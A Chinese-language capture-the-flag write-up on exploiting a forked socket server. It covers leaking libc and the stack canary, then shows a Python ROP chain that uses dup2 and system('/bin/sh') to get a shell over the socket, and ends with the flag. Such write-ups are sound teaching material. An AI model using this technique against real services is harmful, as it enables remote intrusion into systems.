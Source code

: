 tutorial
==========
由於自己對於網路程式設計還沒有概念，而且執行檔在 local 跑不起來，不能用 gdb 觀察，所以看得蠻吃力的。後來感謝 bruce 學長的提點，才順利解出來XD

解題流程
----------
程式一開始會建立 socket 連線，然後執行 ```fork``` 後進入 ```menu(int socket)``` 選單。
* 選項 1 會輸出 ```puts()``` 的 address 扣掉 1280 的值，可以從這邊推出 libc address。
* 選項 2 會接收長達 460 bytes 的輸入，並從輸入 buffer 開始輸出 324bytes。透過 IDA 得知該 buffer 的起點位在  ```rbp-320``` ，所以這裡可以 leak 出位於 ```rbp-8``` 的 canary。
* 選項 3 離開程式。

	write(socket_num, "Time to test your exploit...\n", 0x1DuLL);
	write(socket_num, ">", 1uLL);
	read(socket_num, &s, 460uLL);
	write(socket_num, &s, 324uLL);

----------
有了 libc address 和 canary 後就可以開始蓋 ROP chain 了。原本想直接蓋 ```system``` 開 shell，不知道為什麼失敗了，問了才知道由於前面的 ```fork```，這邊直接叫 ```system``` 的話 file descriptor 會接不起來。所以我們要先用 ```dup2()``` 把 fd 設好才行。

```python
chain = 'A'*312 + p64(canary) + 'B'*8 +
	 p64(pop_rsi_r15_ret) + p64(0x0) + p64(0xdeadbeef) + p64(dup2) +
	 p64(pop_rsi_r15_ret) + p64(0x1) + p64(0xdeadbeef) + p64(dup2) +
	 p64(pop_rdi_ret) + p64(binsh) + p64(system)
```

把一開始 ```accept``` 的回傳值送給 ```stdin``` 和 ```stdout``` 之後 call ```system``` 就可以拿到 shell 了。

	FLAG{3ASY_R0P_R0P_P0P_P0P_YUM_YUM_CHUM_CHUM}
